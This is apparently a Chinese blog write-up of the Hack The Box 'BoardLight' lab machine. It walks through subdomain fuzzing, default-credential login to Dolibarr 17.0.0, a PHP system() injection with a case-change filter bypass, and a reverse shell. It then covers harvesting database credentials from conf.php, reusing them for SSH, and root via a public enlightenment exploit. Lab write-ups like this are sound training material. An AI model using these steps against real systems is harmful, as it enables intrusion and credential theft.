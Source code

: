 ```yaml
---
title: Hack The Box BoardLight
description: Hack The Box BoardLight 靶机 WP
pubDate: 09 24 2024
image: https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-8.webp
categories:
  - 网络安全
tags:
  - 靶场
  - Hack The Box靶场
  - 渗透测试
---
```


Hack The Box BoardLight 靶机

靶机IP：10.10.11.11

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-1.webp)

## Web 渗透

放 Goby 里扫描

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-5.webp)

发现开启 80 端口，查看 Web 页面

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-2.webp)

发现一个域名

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-3.webp)

```shell
board.htb
```

放进 Host 解析

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-4.webp)

fuzz 一下子域名

```shell
.\wfuzz.bat -c -w "E:\Crack\Red_Team\Dict\SecLists\Discovery\DNS\subdomains-top1million-5000.txt" -u "http://board.htb/" -H "Host: FUZZ.board.htb"
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-6.webp)

把 517 过滤掉

```shell
.\wfuzz.bat -c -w "E:\Crack\Red_Team\Dict\SecLists\Discovery\DNS\subdomains-top1million-5000.txt" -u "http://board.htb/" -H "Host: FUZZ.board.htb" --hl 517
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-7.webp)

得到子域名 `crm.board.htb`，添加到 Host 里，访问

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-8.webp)

得到一个 CMS 的登录界面，CMS 为 `Dolibarr 17.0.0`，查找默认密码

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-9.webp)

可登录

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-10.webp)

发现可以添加网页

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-11.webp)

那就简单了，创建页面 abc

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-12.webp)

创建时提示

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-13.webp)

Website 是定时删除的，这里注意一下。重新创建，编辑 HTML 源，添加命令检查一下能不能执行

```shell
<?php echo system("whoami");?>
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-14.webp)

额，禁止动态命令？大小写绕一下试试？

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-15.webp)

可以了。准备一个 php反弹 shell 来反弹就可以了

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-16.webp)

OK 拿到 shell

## 内网渗透

找 flag

```shell
find / -type f -name "user.txt"
```

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-18.webp)

没有？说明在其他用户里，看看数据库配置里有没有啥信息泄露

```shell
find /var/www/html/crm.board.htb -type f -name "*conf*"
```

发现文件

```shell
/var/www/html/crm.board.htb/htdocs/conf/conf.php
```

得到一个用户账号密码

```shell
dolibarrowner/serverfun2$2023!!
```

主机上有这个用户吗？

```shell
cat /etc/passwd
```

没有，看看 Home 下面到底有几个用户

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-19.webp)

有一个 `larissa`。试试登录一下 `larissa/serverfun2$2023!!`

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-20.webp)

登录进来了，找 flag

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-21.webp)

又到了喜闻乐见的 Linux 提权环节

用 `linux-smart-enumeration` 试试。

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-22.webp)

DirtyPipe？试试

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-23.webp)

失败了……看看linPEAS 能出啥

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-24.webp)

额……大差不差，都用不了。然后下面也没啥东西了。然后看见 `enlightenment` 标红。

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-25.webp)

桌面？

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-26.webp)

好了，找 exp 直接利用就行了

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-27.webp)

成功。拿到 flag

![](https://img.trtyr.top/images/blog/Hack%20The%20Box%20BoardLight/BoardLight-28.webp)

